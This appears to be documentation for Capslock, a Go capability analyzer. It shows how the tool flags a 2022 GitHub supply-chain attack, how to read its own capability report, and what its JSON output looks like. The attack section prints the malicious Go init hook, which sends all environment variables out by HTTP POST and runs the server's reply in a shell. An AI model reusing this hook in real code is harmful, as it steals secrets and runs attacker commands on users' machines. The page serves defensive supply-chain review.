 ## Examples

### Capabilities in supply chain attacks

In August 2022, an attempted supply chain attack cloned thousands of GitHub
repos, adding a malicious payload that appeared to exfiltrate user information
and run an external script. Based on the code snippets available, we can test
what the Capslock analyzer would identify as the capabilities of this code.

As an example, Go packages were typically modified to add the following `init`
statement:

```
func init() {
    if os.Getenv("example") == "1" {
        return
    }
    os.Setenv("example", "1")
    env, err := json.Marshal(os.Environ())
    if err != nil {
        return
    }
    res, err := http.Post("", "application/json", bytes.NewBuffer(env))
    if err != nil {
        return
    }
    defer res.Body.Close()
    body, err := ioutil.ReadAll(res.Body)
    if err != nil {
        return
    }
    if string(body) != "" {
        exec.Command("/bin/sh", "-c", string(body)).Start()
    }
}
```

This would be easily identified by a human reviewer - but with thousands of
lines to review in any potential dependency this sort of thing is easily missed.
Capability signals can help direct reviewer attention to functions of higher
criticality by calling out where privileged operations are likely to be
performed.

With just this init function alone, we get the following capabilities:

```
CAPABILITY_EXEC: 1 calls
CAPABILITY_FILES: 1 calls
CAPABILITY_MODIFY_SYSTEM_STATE: 2 calls
CAPABILITY_NETWORK: 1 calls
CAPABILITY_OPERATING_SYSTEM: 1 calls
CAPABILITY_READ_SYSTEM_STATE: 1 calls
CAPABILITY_REFLECT: 1 calls
CAPABILITY_UNANALYZED: 1 calls
```

This is a lot of capabilities for such a small function, and some of these would
warrant attention. Once a reviewer is aware that this code requires
attention, the issues with it would be immediately obvious.

### Running Capslock on Capslock

As an example of how to interpret capability signals that are not malicious, the analysis for
the Capslock package identifies the following capability calls:

```
CAPABILITY_EXEC: 1 calls
CAPABILITY_FILES: 2 calls
CAPABILITY_OPERATING_SYSTEM: 1 calls
CAPABILITY_READ_SYSTEM_STATE: 2 calls
CAPABILITY_REFLECT: 2 calls
CAPABILITY_UNANALYZED: 2 calls
CAPABILITY_UNSAFE_POINTER: 2 calls
```

That seems like a lot! We can look further into each of these capability by
calling Capslock with the verbose flag `-v`. To begin with we can look into the
`exec` capability:

```
CAPABILITY_EXEC: 1 calls
0 direct, 1 transitive
Example callpath: capslock/cmd/capslock.main capslock/analyzer.LoadPackages golang.org/x/tools/go/packages.Load golang.org/x/tools/go/packages.defaultDriver golang.org/x/tools/go/packages.findExternalDriver$1 (*os/exec.Cmd).Run
```

That isn't particularly surprising - when the CLI call the Go packages driver to
load the given package for analysis, this package uses a transitive call to `os/exec`.
As an example of a capability that is a bit more
unexpected, let's check on where calls to `CAPABILITY_OPERATING_SYSTEM` are coming from.

```
CAPABILITY_OPERATING_SYSTEM: 1 calls
0 direct, 1 transitive
Example callpath: capslock/cmd/capslock.main capslock/analyzer.LoadPackages golang.org/x/tools/go/packages.Load golang.org/x/tools/go/packages.defaultDriver golang.org/x/tools/go/packages.goListDriver golang.org/x/tools/go/packages.goListDriver$1 golang.org/x/tools/go/internal/packagesdriver.GetSizesGolist (*golang.org/x/tools/internal/gocommand.Runner).RunRaw (*golang.org/x/tools/internal/gocommand.Runner).runConcurrent (*golang.org/x/tools/internal/gocommand.Invocation).runWithFriendlyError (*golang.org/x/tools/internal/gocommand.Invocation).run golang.org/x/tools/internal/gocommand.runCmdContext (*os.Process).Kill
```

Looks like this capability is due to calls via the `protobuf` library. That
isn't particularly surprising, and is fairly necessary for this package. This is
an example of how even capabilities that aren't intuitive are not necessarily
something to be avoided. But by reviewing what our code is really doing we can
reassure ourselves that nothing concerning is present in our dependencies.




### Machine-readable outputs

There are two types of machine readable outputs produced by Capslock:

*  JSON, by using -output=j or -output=json
*  A list of capability types, from -output=m


The key details in the JSON output are in the CapabilityInfo repeated field,
which is represented as a protocol buffer in the analyzer. This proto has the
following format:

```
message CapabilityInfo {
  // The name of the package.
  optional string package_name = 1;
  // Name associated with this capability.
  optional Capability capability = 2;
  // The dependency path to where the capability is incurred.
  optional string dep_path = 3;
  // The dependency path to where the capability is incurred.
  // Each element is a single function or method.
  repeated Function path = 6;
  // The location of the package.
  optional string package_dir = 4;
  // Classification of how the capability was incurred.
  optional CapabilityType capability_type = 5;
}
```

As an example, we have the following capability in the JSON output when
analyzing the Capslock package:

```
{
  "packageName":  "main",
  "capability":  "CAPABILITY_EXEC",
  "depPath":  "capslock/cmd/capslock.main capslock/analyzer.LoadPackages golang.org/x/tools/go/packages.Load golang.org/x/tools/go/packages.defaultDriver golang.org/x/tools/go/packages.findExternalDriver$1 (*os/exec.Cmd).Run",
  "path":  [
    {
      "name":  "capslock/cmd/capslock.main"
    },
    {
      "name":  "capslock/analyzer.LoadPackages",
      "site":  {
        "filename":  "capslock.go",
        "line":  "38",
        "column":  "31"
      }
    },
    {
      "name":  "golang.org/x/tools/go/packages.Load",
      "site":  {
        "filename":  "load.go",
        "line":  "78",
        "column":  "28"
      }
    },
    {
      "name":  "golang.org/x/tools/go/packages.defaultDriver",
      "site":  {
        "filename":  "packages.go",
        "line":  "261",
        "column":  "32"
      }
    },
    {
      "name":  "golang.org/x/tools/go/packages.findExternalDriver$1",
      "site":  {
        "filename":  "packages.go",
        "line":  "278",
        "column":  "25"
      }
    },
    {
      "name":  "(*os/exec.Cmd).Run",
      "site":  {
        "filename":  "external.go",
        "line":  "88",
        "column":  "20"
      }
    }
  ],
  "packageDir":  "capslock/cmd/capslock",
  "capabilityType":  "CAPABILITY_TYPE_TRANSITIVE"
},
```

Another important part of the JSON output is the moduleInfo section, which
includes the versions of the packages that were build in order to make the
analysis reproducible.

```
"moduleInfo":  [
    {
      "path":  "golang.org/x/mod",
      "version":  "v0.10.0"
    },
    {
      "path":  "golang.org/x/sys",
      "version":  "v0.8.0"
    },
    {
      "path":  "golang.org/x/tools",
      "version":  "v0.9.3"
    },
    {
      "path":  "google.golang.org/protobuf",
      "version":  "v1.28.1"
    },
]
```
